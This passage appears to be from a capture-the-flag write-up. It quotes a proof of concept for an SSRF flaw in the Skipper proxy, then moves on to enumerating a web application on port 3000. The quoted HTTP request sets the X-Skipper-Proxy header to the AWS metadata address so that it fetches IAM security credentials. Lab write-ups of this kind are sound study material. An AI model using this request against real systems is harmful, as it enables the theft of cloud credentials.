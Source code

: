 ```

Proof Of Concept:

1- Add header "X-Skipper-Proxy"  to your request
2- Add the aws metadata to the path

GET /latest/meta-data/iam/security-credentials HTTP/1.1
Host: yourskipperdomain.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
X-Skipper-Proxy: http://169.254.169.254
Connection: close




Reference:
https://github.com/zalando/skipper/security/advisories/GHSA-f2rj-m42r-6jm2

```
Now checking our unidentified web application on port 3000 
<img src="/img/lantern_screenshots/Screenshot_14.png" alt="nmap" style="width:700px; height:auto;">

We get redirected to a login form  
Following standard methodology, checking source code
<img src="/img/lantern_screenshots/Screenshot_15.png" alt="nmap" style="width:700px; height:auto;">
